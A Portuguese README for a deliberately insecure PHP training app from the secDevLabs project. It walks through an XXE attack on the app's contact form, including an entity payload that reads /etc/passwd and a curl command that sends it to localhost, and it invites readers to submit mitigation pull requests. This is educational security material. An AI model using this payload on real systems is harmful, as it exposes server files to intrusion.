

# ViniJR Blog

<p align="center">
    </br>
    <a href="README.md"></a>
</p>

Este é um aplicativo web PHP simples que contém um exemplo de uma vulnerabilidade de configuração incorreta de segurança (XXE) e o objetivo principal deste aplicativo é descrever como um usuário mal-intencionado pode explorá-lo. 

## Index

- [ViniJR Blog](#vinijr-blog)
  - [Index](#index)
  - [O que é XXE?](#o-que-é-xxe)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app ⚽️](#conheça-o-app-️)
  - [Narrativa de ataque](#narrativa-de-ataque)
    - [👀](#)
      - [Campo de entrada não tratado permite que um invasor recupere informações confidenciais](#campo-de-entrada-não-tratado-permite-que-um-invasor-recupere-informações-confidenciais)
    - [🔥](#-1)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)


## O que é XXE?

Muitos processadores XML mais antigos ou mal configurados avaliam referências de entidades externas em documentos XML. Entidades externas podem ser usadas para divulgar arquivos internos usando o manipulador de URI de arquivo, compartilhamentos de arquivos internos, verificação de porta interna, execução remota de código e ataques de negação de serviço. 

O principal objetivo deste aplicativo é discutir como as vulnerabilidades **XXE** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do secDevLabs sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a5/vinijr-blog
```

```sh
make install
```

Depois é só visitar [localhost:10004][app] ! 😆

## Conheça o app ⚽️

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples:

- Visite a página inicial!
- Tente enviar uma mensagem ao ViniJR.

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### Campo de entrada não tratado permite que um invasor recupere informações confidenciais

Após analisar as entradas do aplicativo, é possível identificar que a seção "ENTRE EM CONTATO" permite que os usuários enviem mensagens para o servidor, conforme mostra a figura a seguir: 



Usar o proxy [Burp Suite](https://portswigger.net/burp) para interceptar esta solicitação (POST para contact.php) revela que a mensagem está sendo construída usando um XML (se você precisar de ajuda para configurar seu proxy, você deve verifique este [guia](https://support.portswigger.net/customer/portal/articles/1783066-configuring-firefox-to-work-with-burp)): 


Para replicar este POST usando [curl](https://curl.haxx.se/), crie o seguinte arquivo `payload.xml`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

E depois rode

```sh
curl -d @payload.xml localhost:10004/contact.php ; echo
```

Verificando o código fonte do [arquivo](../vinijr-blog/app/contact.php), é possível ver como esse XML é carregado no lado do servidor:


### 🔥

Como nenhuma validação está sendo usada para evitar que [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) sejam enviados para o arquivo PHP, um invasor pode criar o seguinte `evilxml.xml` para executar um XXE :

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

E, como mostra a imagem a seguir, é possível perceber que o ataque é bem-sucedido e as informações confidenciais são recuperadas do servidor que hospeda o aplicativo vulnerável:

```sh
curl -d @evilxml.xml localhost:10004/contact.php ; echo
```


## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Extrair dados do servidor através do método mostrado acima.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22ViniJr+Blog%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10004
[secdevlabs]: https://github.com/globocom/secDevLabs
